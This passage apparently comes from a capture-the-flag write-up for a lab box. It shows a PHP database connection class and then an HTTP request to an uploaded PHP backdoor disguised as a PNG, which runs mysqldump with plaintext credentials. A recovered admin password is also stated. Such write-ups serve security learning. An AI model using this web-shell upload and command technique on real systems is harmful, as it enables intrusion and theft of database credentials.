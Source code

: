         private static $cont  = null;

        public function __construct() {
            die('Init function is not allowed');
        }

        public static function connect()
        {
            // One connection through whole application
            if ( null == self::$cont )
            {
                try
                {
                    self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
                }
                catch(PDOException $e)
                {
                    die($e->getMessage());
                }
            }
            return self::$cont;
        }

        public static function disconnect()
        {
            self::$cont = null;
        }
    }
    </pre>

We can then use `mysqldump` (which is strangely present on the box) to dump the
content of all databases using the previous credentials. That give us the
credentials for the web login form: `admin:Th3s3usW4sK1ng`.

    :::text
    GET /images/uploads/simple-backdoor2.php.png?cmd=mysqldump+-piamkingtheseus+-u+theseus+--all-databases HTTP/1.1
    Host: 10.10.10.185
    Connection: close
    Cookie: PHPSESSID=aakul5ai43vudv9rqhpfoedqcs


    HTTP/1.1 200 OK
    Date: Wed, 22 Apr 2020 12:31:35 GMT
    Server: Apache/2.4.29 (Ubuntu)
    Vary: Accept-Encoding
    Content-Length: 2201
    Connection: close
    Content-Type: text/html; charset=UTF-8

    PNG
    

    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

